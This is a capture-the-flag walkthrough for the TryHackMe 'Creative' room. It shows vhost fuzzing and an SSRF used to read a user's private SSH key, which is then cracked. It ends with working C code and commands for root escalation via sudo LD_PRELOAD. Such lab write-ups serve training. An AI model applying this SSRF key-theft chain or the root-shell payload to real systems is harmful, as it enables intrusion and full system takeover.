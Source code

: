 # Creative CTF - TryHackMe Room
# **!! SPOILERS !!**
#### This repository documents my walkthrough for the **Creative** CTF challenge on [TryHackMe](https://tryhackme.com/room/creative). 
---


after first scan we see 2 open ports: 22 and 80

![scn](imgs/scn.png "scn")

using ffuf to find vhosts 

```
ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -u http://creative.thm -H 'Host: FUZZ.creative.thm' -fs 178
```

![ffuf](imgs/ffuf.png "ffuf")

we found `beta`

on the website there is a url tester

![url](imgs/url.png "url")

if we start python server and enter our address we got hit

![hit2](imgs/hit2.png "hit2")

![hit](imgs/hit.png "hit")

i tested grabbing the reverse shell but it didnt seem to work

i also tested `http://127.0.0.1` and we got the response

i used zap proxy to fuzz diffrent port numbers and found port 1337 open

![fuzz](imgs/fuzz.png "fuzz")

we see file listing working on the port 1337

![files](imgs/files.png "files")

by looking at `http://127.0.0.1:1337/home` we see user saad

we can find saad private ssh key by going to `http://127.0.0.1:1337/home/saad/.ssh/id_rsa`

![rsa](imgs/rsa.png "rsa")

the key has a passphrase 

using john to crack the password

![john](imgs/john.png "john")

now we have user access and user flag

![user](imgs/user.png "user")

after looking at linpeas output we might have saad password 

![hs](imgs/hs.png "hs")

looking at sudo -l we can run ping as root, but ping cant be exploited, the part that we will be exploiting is LD_PRELOAD

![sudol](imgs/sudol.png "sudol")

i asked chatGPT about this priv esc and it suggested

```
$ echo 'void __attribute__((constructor)) init() { setgid(0); setuid(0); system("/bin/bash"); }' > /tmp/root.c
$ gcc -shared -o /tmp/root.so -fPIC /tmp/root.c
$ sudo LD_PRELOAD=/tmp/root.so ping

```

it worked but it seems to block other commands

![gpt](imgs/gpt.png "gpt")

i found better way to do this on this site `https://www.hackingarticles.in/linux-privilege-escalation-using-ld_preload/`

we need to use:

```
$ cd /tmp
$ nano shell.c
$ gcc -fPIC -shared -o shell.so shell.c -nostartfiles
$ sudo LD_PRELOAD=/tmp/shell.so ping
```

shell.c code
```
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
void _init() {
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/sh");
}
```


now we got root shell and root flag

![root](imgs/root.png "root")

# MACHINE PWNED
